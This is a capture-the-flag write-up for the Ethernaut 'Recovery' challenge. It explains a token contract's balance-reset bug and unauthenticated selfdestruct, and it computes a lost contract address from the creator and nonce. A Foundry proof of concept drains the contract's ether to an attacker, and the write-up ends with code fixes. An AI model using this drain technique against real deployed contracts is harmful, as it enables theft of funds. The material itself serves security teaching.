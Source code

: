 # Level 17 - Recovery

## Objectives

- Recover (or remove) the 0.001 ether from the lost contract address.

## Contract Overview

The contract is comprised of two separate contracts, `Recovery` and `SimpleToken`. Overall, the contracts provide a simple token generation and transfer system, where tokens can be generated with an initial supply and then transferred between addresses. The contract also includes a way to collect ether in exchange for tokens and destroy the contract if needed.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Recovery_slither.png)

## Finding the weak spots

The `SimpleToken` contract has at least two different problems:

- `transfer` function is always resetting the `_to` balance
- `destroy` function has no authentication requirements

### `transfer` function is always resetting the `_to` balance

The issue with the transfer function is that it does not correctly update the balances of both the sender and receiver. While the balance of the sender (msg.sender) is correctly updated, the balance of the receiver (\_to) is not updated properly. Instead, it is reset to the transfer amount (\_amount) rather than adding it to the existing balance.

This means that if a malicious actor were to call the transfer function with a transfer amount of 0, they could completely reset the balance of the victim to 0. This would result in the loss of all the victim's tokens, making this vulnerability a critical security issue.

### `destroy` function has no authentication requirements

The `destroy` function in the `SimpleToken` contract executes the `selfdestruct` opcode, which destroys the contract and sends any remaining ETH balance to the specified address. Moreover, this function does not have any authentication requirements, which means that anyone can call this function and destroy the contract, along with all the token balances of the users, and steal the deposited ETH.

## Potential attack scenario (hypothesis)

Attacker retrive the lost address of the deployed `SimpleToken`by computing it and than can call the `destroy` function that will execute a `selfdestruct(_to)` sending all the contract's balance to the `_to` address.

## Retrieve the lost address

According to the Ethereum Yellow Paper

> The address of the new account is defined as being the rightmost 160 bits of the Keccak hash of the RLP encoding of the structure containing only the sender and the account nonce.
>
> \_Reference: https://ethereum.github.io/yellowpaper/paper.pdf

Specifically, the new address is the rightmost 160 bits of the keccak256 hash of the RLP encoding of the sender/creator's address and the nonce.

- sender address - It is the address that created the contract.
- The nonce represents the number of contracts created by the factory contract or, if it's an EOA, the number of transactions by that account. In this case, since it's the first contract created by the factory contract, the nonce will be 1.
- The RLP encoding is used to encode arbitrarily nested arrays of binary data, and it's the primary encoding method used to serialize objects in Ethereum's execution layer. The RLP encoding for a 20-byte address is 0xd6, 0x94 according to the Ethereum Yellow Paper and other sources. And since the nonce is a single byte with a value of 1, its RLP encoding will be 0x01 because for all values under the range [0x00, 0x7f] (decimal [0, 127]), that byte is its own RLP encoding.

According to [ethereum.stackexchange.com](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed) it should look like:
`nonce1= address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x01))))));`

## Plan of the attack

1. Attacker retrieves the lost address
2. Attacker calls the `destroy` function that will execute a `selfdestruct(_to)` sending all the contract's balance to the attacker address.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/17-Recovery.t.sol))

```solidity
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_address("Attacker's address", attacker);
        emit log_named_uint(
            "Attacker's balance before destroying",
            attacker.balance
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // 1. Attacker retrieves the lost address
        address lostAddress = address(
            uint160(
                uint256(
                    keccak256(
                        abi.encodePacked(
                            bytes1(0xd6),
                            bytes1(0x94),
                            recoveryContract,
                            bytes1(0x01)
                        )
                    )
                )
            )
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_address("Lost contract address", lostAddress);
        emit log_named_uint(
            "Lost contract balance before destroying",
            lostAddress.balance
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("Starting the exploit...");
        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // 2. Attacker calls the `destroy` function that will execute a `selfdestruct(_to)` sending all the contract's balance to the attacker address.
        SimpleToken(payable(lostAddress)).destroy(payable(attacker));

        emit log_named_uint(
            "Lost contract balance after destroying",
            lostAddress.balance
        );

        emit log_named_uint(
            "Attacker's balance after destroying",
            attacker.balance
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // Test assertion
        assertEq(lostAddress.balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Recovery.png)

## Recommendations

- `transfer` function is always resetting the `_to` balance
  To fix this, the transfer function should subtract the transfer amount (\_amount) from the balance of the sender and add it to the balance of the receiver. The corrected transfer function would look like this:

```solidity
function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] -= _amount;
    balances[_to] += _amount;
}
```

- `destroy` function has no authentication requirements
  One way to fix this would be to add an access control mechanism that restricts the calling of the destroy function to only the contract owner or an authorized admin. This can be achieved by adding a modifier that checks if the caller is the contract owner, and only allowing the destroy function to be executed if this condition is met.

```solidity
modifier onlyOwner() {
    require(msg.sender == owner, "Only the contract owner can call this function.");
    _;
}

function destroy(address payable _to) public onlyOwner {
    selfdestruct(_to);
}

```

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-17-solution-recovery)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
